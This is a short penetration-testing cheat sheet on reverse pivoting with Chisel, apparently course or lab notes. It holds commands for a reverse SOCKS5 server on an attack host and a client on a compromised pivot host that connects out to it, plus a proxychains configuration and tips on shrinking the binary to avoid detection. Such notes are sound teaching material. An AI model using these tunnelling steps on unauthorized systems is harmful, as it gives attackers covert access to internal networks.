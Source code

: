 ## Reverse Pivot with Chisel
- **Purpose**: Use when inbound connections to pivot host are blocked by firewalls.
- **Setup**: Run Chisel server on attack host, client on pivot host.

### Attack Host: Reverse Chisel Server
- **Start Server**:
   ```bash
   sudo ./chisel server --reverse -v -p 1234 --socks5
   ```
   - Enables reverse tunneling.
   - **Output**:
     ```
     2022/05/30 10:19:16 server: Reverse tunnelling enabled
     2022/05/30 10:19:16 server: Listening on http://0.0.0.0:1234
     ```

### Pivot Host: Reverse Chisel Client
- **Start Client**:
   ```bash
   ./chisel client -v 10.10.14.17:1234 R:socks
   ```
   - Connects to attack host, enabling SOCKS5 proxy on server’s default port (1080).
   - **Output**:
     ```
     2022/05/30 14:19:30 client: Connected (Latency 117.204196ms)
     ```

## Proxychains Configuration (Reverse)
- **Edit `/etc/proxychains.conf`**:
  ```
  [ProxyList]
  socks5 127.0.0.1 1080
  ```
- **Access Internal Network**:
  - Use `proxychains` with RDP (same as forward pivot).

## Troubleshooting
- **Chisel Errors**: Try a different Chisel version if errors occur on the target.
- **Firewall Restrictions**: Use reverse pivot for restrictive environments.
- **Binary Size**: Shrink binary to reduce detection risk.

## Use Cases
- Access internal network hosts (e.g., Domain Controller) from an external attack host.
- Bypass firewall restrictions for penetration testing.
- Pivot through compromised hosts to deeper network segments.

## Notes
- **Stealth**: Minimize binary size and monitor transfer sizes to avoid detection.
- **Resources**:
  - 0xpat’s blog: “Tunneling with Chisel and SSF.”
  - IppSec’s Reddish walkthrough (Chisel at 24:29).
- **Authentication**: Supports HTTP “basic” and SOCKS “user/pass” authentication.
